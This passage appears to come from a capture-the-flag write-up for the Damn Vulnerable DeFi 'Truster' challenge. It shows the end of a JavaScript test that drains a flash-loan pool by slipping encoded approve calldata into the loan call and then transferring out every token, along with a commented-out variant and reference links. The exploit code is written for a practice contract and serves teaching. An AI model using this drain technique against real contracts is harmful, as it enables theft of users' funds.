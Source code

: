 ```jsx
            this.token.address,
            iface.encodeFunctionData("approve", [attacker.address, TOKENS_IN_POOL])
        );
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
    })

    // it('Exploit', async function () {
    //     const data = web3.eth.abi.encodeFunctionCall({
    //         name: 'approve',
    //         type: 'function',
    //         inputs: [{
    //             type: 'address',
    //             name: 'spender'
    //         },{
    //             type: 'uint256',
    //             name: 'amount'
    //         }]
    //     }, [attacker.address, TOKENS_IN_POOL.toString()]);

    //     await this.pool.flashLoan(0, attacker.address, this.token.address, data)
    //     await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
    // });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // Attacker has taken all tokens from the pool
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal('0');
    });
});

```

## References

- [ERC20](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#IERC20-approve-address-uint256-)
- [Solution](https://github.com/iphelix/damn-vulnerable-defi/blob/master/test/truster/truster.challenge.js)
- [Web3JS](https://web3js.readthedocs.io/en/v1.2.11/web3-eth-abi.html)
- <https://www.damnvulnerabledefi.xyz/challenges/3.html>
